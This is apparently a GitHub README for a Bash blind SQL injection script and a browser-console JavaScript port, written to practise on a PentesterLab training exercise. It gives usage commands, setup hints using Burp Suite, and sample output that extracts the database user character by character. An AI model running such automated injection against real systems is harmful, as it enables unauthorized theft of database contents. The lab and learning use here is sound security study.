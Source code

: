 # Blind SQL injection script
This is a Bash script which automates blind SQL injections by testing characters: `{0..9} {A..z} . .. ; : - _ @`
It was written and tested based on this [PentesterLab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course) which actually supports in-band SQL injection which is highly preferable to blind SQLIs. However, this was written for the sake of learning how to automate blind SQL injections, since all in-band SQLIs can be treated as blind SQL injections but not vice versa.

Previously I used a similar script but for an eLS PTP lab. Since that lab is not open to the public and I haven't found a free one publicly available, this will do. This script was not originally written by me, I used [this for reference](https://github.com/chilico/SQLblind) which itself appeared to be copied from eLS's PTP course on Web app pentesting.

## Important:
This script requires heavy editing. You have to use Burpsuite to test the SQLI parameters, then copy as `curl`, replace the curl syntax in this script, together with `$URL`, `$truestring`.

## Usage
`./SQLblind.sh 20 '@@version'`

`./SQLblind.sh 20 'system_user()'`

## Output for Bash script
```
root@Kali:~/Web# ./SQLblind.sh 30 'system_user()'
Edit the $URL,$truestring and curl command before you use it. Basically change almost everything :) 
Usage: ./SQLblind.sh max-length 'query'
Eg. ./SQLblind.sh 20 'database()' 
Eg. ./SQLblind.sh 30 '@@version'
extracting the results from query system_user()...
Character number 1 found: P
Character number 2 found: E
Character number 3 found: N
Character number 4 found: T
Character number 5 found: E
Character number 6 found: S
Character number 7 found: T
Character number 8 found: E
Character number 9 found: R
Character number 10 found: L
Character number 11 found: A
Character number 12 found: B
Character number 13 found: @
Character number 14 found: L
Character number 15 found: O
Character number 16 found: C
Character number 17 found: A
Character number 18 found: L
Character number 19 found: H
Character number 20 found: O
Character number 21 found: S
Character number 22 found: T
Results: PENTESTERLAB@LOCALHOST

```
## Output for JS script
I've also translated it into AJAX Javascript which can be run on the browser console. This obviates the need to login and authenticate by shell. Tested on Chrome console.
```
Extracting results from query system_user()...
Character number 1 found: p
Character number 2 found: e
Character number 3 found: n
Character number 4 found: t
Character number 5 found: e
Character number 6 found: s
Character number 7 found: t
Character number 8 found: e
Character number 9 found: r
Character number 10 found: l
Character number 11 found: a
Character number 12 found: b
Character number 13 found: @
Character number 14 found: l
Character number 15 found: o
Character number 16 found: c
Character number 17 found: a
Character number 18 found: l
Character number 19 found: h
Character number 20 found: o
Character number 21 found: s
Character number 22 found: t
Results: pentesterlab@localhost
```
